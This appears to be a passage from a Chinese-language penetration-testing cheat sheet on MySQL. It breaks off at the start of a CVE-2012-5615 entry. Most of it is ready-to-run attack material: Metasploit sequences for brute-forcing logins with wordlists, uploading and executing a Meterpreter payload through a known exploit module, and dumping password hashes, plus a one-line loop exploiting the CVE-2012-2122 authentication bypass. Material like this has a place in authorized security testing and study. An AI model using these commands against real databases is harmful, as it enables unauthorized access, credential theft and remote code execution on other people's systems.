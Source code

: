 `MySQL 是一个关系型数据库管理系统，由瑞典 MySQL AB 公司开发，目前属于 Oracle 公司。MySQL[是一种关联数据库管理系统]，关联数据库[将数据保存在不同的表中]，而不是将所有数据放在一个大仓库内，这样就增加了速度并提高了灵活性。[MySQL 的 SQL 语言是用于访问数据库的最常用标准化语言]。MySQL 软件[采用了双授权政策]，它分为社区版和商业版，由于其体积小、速度快、总体拥有成本低，尤其是开放源码这一特点，一般中小型网站的开发都选择 MySQL 作为网站数据库。`

**注入**
- [Mysql数据库注入笔记](../Web安全/Web_Generic/SQLi.md#Mysql)

**提权**

关于 mysql 提权内容,见笔记 [权限提升](../后渗透/权限提升.md#Mysql) mysql 提权部分

**MSF 爆破**
```bash
use auxiliary/scanner/mysql/mysql_login
set RHOSTS [IP]
set USER_FILE [用户名字典]
set PASS_FILE [密码字典]
set STOP_ON_SUCCESS true
set THREADS 20
exploit
```

**MSF 上传文件执行**
```bash
use exploit/windows/mysql/scrutinizer_upload_exec
set RHOST [ip]
set USERNAME [user]
set PASSWORD [pass]
set payload windows/meterpreter/bind_tcp
set RHOST [ip]
set LPORT 4444
exploit
```

**MSF 获取 mysql.user 的 hash**
```bash
use auxiliary/scanner/mysql/mysql_hashdump
set RHOSTS [ip]
set USERNAME [user]
set PASSWORD [pass]
set THREADS 20
exploit
```

**CVE-2012-2122 Mysql 身份认证绕过漏洞**
- 简介

    当连接 MariaDB/MySQL 时，输入的密码会与期望的正确密码比较，由于不正确的处理，会导致即便是 memcmp() 返回一个非零值，也会使 MySQL 认为两个密码是相同的。也就是说只要知道用户名，不断尝试就能够直接登入 SQL 数据库。

- POC | Payload | exp
    ```
    for i in `seq 1 1000`; do mysql -uroot -pwrong -h your-ip -P3306 ; done
    ```

**CVE-2012-5615 Oracle MySQL Server 5.5.19 用户名枚举漏洞**
- 简介
